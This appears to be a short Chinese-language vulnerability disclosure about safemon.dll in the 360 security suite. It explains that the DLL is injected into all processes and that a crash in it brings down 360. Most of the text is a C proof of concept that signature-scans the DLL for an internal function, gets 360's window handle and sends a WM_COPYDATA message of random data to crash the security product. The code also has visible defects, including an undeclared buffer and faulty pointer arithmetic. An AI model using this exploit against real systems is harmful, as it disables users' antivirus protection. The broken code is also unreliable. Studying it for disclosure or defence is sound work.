

版本号




漏洞文件: safemon.dll

文件功能: 全局注入到所有进程,监控进程的创建,监控是否会对浏览器做出恶意的行为


safemon.dll互分布到每一个进程

同时和360进行一个通信,如果safemon.dll出现问题,也会导致360的崩溃


```c
#include<stdio.h>
#include<windows.h>

int main()
{
    HMODULE h360 =GetModuleHandle(TEXT("safemon.dll"));
    int i = 0;
    if(h360)
    {
        for (i = 0; i<0x30000; i++)//作比较
        {
            if (memcmp((BYTE *)(h360+i), "\x83\xEC\x10\x56\x8D\x44\x24\x04\x50",9)==0)
            {
                     break;
            }
        }
        if (i==0x30000)
        {
            return;
        }
        FARPROC funcGet360HWND = (FARPROC)(h360+i);
        HWND hWnd = (HWND)funcGet360HWND();
        COPYDATASTRUCT cpdata;
        cpdata.dwData = 0x4d47534d;
        cpdata.cbData = 0x1000;
        cpdata.lpData = msgbuf;  //长度0x1000字节的随即数据，其中不能有连续\x00\x00
        SendMessage(hWnd, WM_COPYDATA, NULL,(LPARAM)&cpdata); 
    }
}
```

